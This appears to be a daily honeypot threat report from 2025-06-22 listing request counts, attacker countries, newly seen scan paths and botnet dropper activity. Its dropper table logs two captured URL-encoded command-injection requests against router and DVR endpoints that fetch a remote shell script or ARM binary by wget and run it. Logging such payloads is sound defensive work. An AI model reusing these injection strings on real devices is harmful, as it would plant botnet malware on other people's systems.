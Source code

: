 ```yaml
---
title: "Report: 2025-06-22 "
date: 2025-06-22
desciption: "Report: 2025-06-22" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-22 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 23 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 807 requests were recorded during the day, originating from 2 different countries, with a peak of 230 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| BR               | Germany            |
| US               | Germany            |
| KR               | Germany            |
| SG               | Germany            |
| FR               | Dubai              |
| US               | Dubai              |
| US               |                    |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |
| 144.172.112.208 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.32%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
|  17 |                     5 | GET /phpMyAdmin/index.php HTTP/1.1                      |
| 180 |                     1 | \x00\x0E8ro\xB9w7\xAE\xB1Q\x00\x00\x00\x00\x00          |
| 181 |                     1 | GET /socket.io/1/?t=1750560403883 HTTP/1.1              |
| 183 |                     1 | GET /okO4 HTTP/1.1                                      |
| 184 |                     1 | GET /WPKj HTTP/1.1                                      |
| 200 |                     1 | GET /Odin/http/call1750556917 HTTP/1.1                  |
| 201 |                     1 | GET /OdinHttpCall1750556917 HTTP/1.1                    |
| 202 |                     1 | GET /odinhttpcall1750556917 HTTP/1.1                    |
| 205 |                     1 | GET /varayu HTTP/1.1                                    |
| 206 |                     1 | GET /wzlhmj HTTP/1.1                                    |
| 212 |                     1 | GET /WebClient.html HTTP/1.1                            |
| 217 |                     1 | GET /Odin/http/call1750558162 HTTP/1.1                  |
| 218 |                     1 | GET /OdinHttpCall1750558162 HTTP/1.1                    |
| 219 |                     1 | GET /odinhttpcall1750558162 HTTP/1.1                    |
| 236 |                     1 | \x00\x0E8'Z\xFF\x17cn\xF1\x93\x00\x00\x00\x00\x00       |
| 239 |                     1 | \x00\x0E8\x02'\x07\xF7\xCE\xCE\xBA4\x00\x00\x00\x00\x00 |
| 240 |                     1 | GET http://ifconfig.me/ HTTP/1.1                        |
| 243 |                     1 | GET /6Yjd HTTP/1.1                                      |
| 244 |                     1 | GET /Hqn5 HTTP/1.1                                      |
| 259 |                     1 | GET /Odin/http/call1750582978 HTTP/1.1                  |
| 260 |                     1 | GET /OdinHttpCall1750582978 HTTP/1.1                    |
| 261 |                     1 | GET /odinhttpcall1750582978 HTTP/1.1                    |
| 293 |                     1 | \x00\x0E8\x80\x10\xA0&\xDEc\xDB\xC0\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   230 | US                 |
|  1 |                   128 | DE                 |
|  2 |                    71 | CN                 |
|  3 |                    70 | NL                 |
|  4 |                    59 | BG                 |
|  5 |                    46 | FR                 |
|  6 |                    30 | SG                 |
|  7 |                    25 | JP                 |
|  8 |                    19 | GB                 |
|  9 |                    11 | CA                 |
| 10 |                    11 | BR                 |
| 11 |                    11 | CH                 |
| 12 |                    10 | PL                 |
| 13 |                    10 | GH                 |
| 14 |                     9 | KR                 |
| 15 |                     6 | NG                 |
| 16 |                     6 | LT                 |
| 17 |                     6 | IN                 |
| 18 |                     5 | IL                 |
| 19 |                     5 | BE                 |
| 20 |                     4 | HK                 |
| 21 |                     4 | MD                 |
| 22 |                     3 | AR                 |
| 23 |                     3 | IR                 |
| 24 |                     3 | KZ                 |
| 25 |                     3 | RU                 |
| 26 |                     2 | UA                 |
| 27 |                     2 | AE                 |
| 28 |                     2 | SC                 |
| 29 |                     2 | TW                 |
| 30 |                     2 | TN                 |
| 31 |                     2 | IE                 |
| 32 |                     2 | EE                 |
| 33 |                     1 | MC                 |
| 34 |                     1 | KE                 |
| 35 |                     1 | PT                 |
| 36 |                     1 | MX                 |
| 37 |                     1 | ES                 |
